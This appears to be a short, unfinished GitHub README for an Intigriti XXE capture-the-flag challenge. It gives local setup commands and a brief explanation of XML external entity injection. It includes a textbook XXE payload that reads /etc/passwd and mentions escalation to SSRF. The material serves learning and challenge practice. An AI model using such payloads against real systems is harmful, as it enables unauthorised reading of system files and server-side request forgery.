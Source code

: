 ## Initigriti XXE challenge POC

```
git clone https://github.com/rogueloop/intigriti-xxe-challenge.git
cd intigriti-xxe-challenge
php -S localhost:8000
```

## challenge 
![Challenge Image](./486066540_18220552186292613_50405887802685493_n.jpeg)

## Solution 

The code has a sanitation mechanism where common XML keywords are not allowed. 





### About XXE

XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. 

XML contains 


Here is an example pyload: 
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```


XXE can be futher expoited to perform a SSRF.

